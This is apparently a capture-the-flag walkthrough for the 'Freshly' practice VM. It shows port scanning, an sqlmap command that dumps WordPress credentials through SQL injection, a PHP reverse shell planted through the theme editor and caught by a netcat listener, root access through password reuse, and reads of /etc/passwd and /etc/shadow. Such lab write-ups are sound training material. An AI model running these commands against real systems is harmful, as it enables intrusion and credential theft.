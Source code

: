 ```yaml
---
layout: blog_item
title: "Freshly Walkthrough"
date: "2015-06-14"
author: Arr0way
description: 'Freshly - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The goal of this challenge is to break into the machine via the web and find the secret hidden in a sensitive file. If you can find the secret, send me an email for verification.

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 10.0.1.109

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>64 Apache httpd 2.4.7 ((Ubuntu))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
               <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 8080</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd</p></pc>
           </td>
        </tr>
        </tbody>

</table>
</div>

### HTTP Enumeration

Enumeration of port 80, discovered <code>login.php</code>:

![dirbuster](/img/blog/freshly/dirbuster.png)

![login form sqli](/img/blog/freshly/login.png)

## SQL Injection  

The discovered form was vulnerable to a time-based SQL injection, SQLMap was used to expose the following databases:


{% highlight bash %}

available databases [7]:
[*] information_schema
[*] login
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] users
[*] wordpress8080

{% endhighlight %}

SQLMap was used to dump the **wordpress8080** database:


{% highlight bash %}

sqlmap -o -u "http://10.0.1.109/login.php" --forms -D wordpress8080 -T users --risk 1 --dbms=mysql --dump

{% endhighlight %}

Discovered credentials:

{% highlight bash %}

Database: wordpress8080
Table: users
[1 entry]
+----------+---------------------+
| username | password            |
+----------+---------------------+
| admin    | SuperSecretPassword |
+----------+---------------------+

{% endhighlight %}

## Wordpress - Reverse PHP Shell

Wordpress was accessible on port <code>443</code> and port <code>8080</code>. Authentication was successful using the discovered credentials and a PHP reverse shell was introduced to the sites source code via the wordpress theme editor.

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Username</th>
      <th>Password</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><b>admin</b></p></pc>
           </td>
           <td>
               <pc><p><code>SuperSecretPassword</code></p></pc>
           </td>
        </tr>
      </tbody>

</table>
</div>

![wordpress reverse php shell](/img/blog/freshly/wordpress-php-shell.png)

A reverse shell successfully connected back:

{% highlight bash %}

[root:~]# nc -n -v -l -p 443           
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.109] 37912
Linux Freshly 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 13:26:49 up 46 min,  0 users,  load average: 0.00, 0.01, 0.46
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$

{% endhighlight %}


## Privilege Escalation

Account credential reuse from the Wordpress admin password <code>SuperSecretPassword</code> allowed <code>su -</code> to escalate privileges to root.

{% highlight bash %}

$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@Freshly:/$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)

daemon@Freshly:/$ su -
su -
Password: SuperSecretPassword

root@Freshly:~# id
id
uid=0(root) gid=0(root) groups=0(root)

{% endhighlight %}

## Post Exploitation Enumeration  

The file <code>/etc/passwd</code> contained the text:

{% highlight bash %}

root@Freshly:/# tail -n 5 /etc/passwd
tail -n 5 /etc/passwd
user:x:1000:1000:user,,,:/home/user:/bin/bash
mysql:x:103:111:MySQL Server,,,:/nonexistent:/bin/false
candycane:x:1001:1001::/home/candycane:
# YOU STOLE MY SECRET FILE!
# SECRET = "NOBODY EVER GOES IN, AND NOBODY EVER COMES OUT!"

{% endhighlight %}

Additionally the file <code>/etc/shadow</code> had incorrect permissions allowing a non privileged user read access, allowing for offline password cracking using Hashcat / JTR.

Thanks for the VM :)
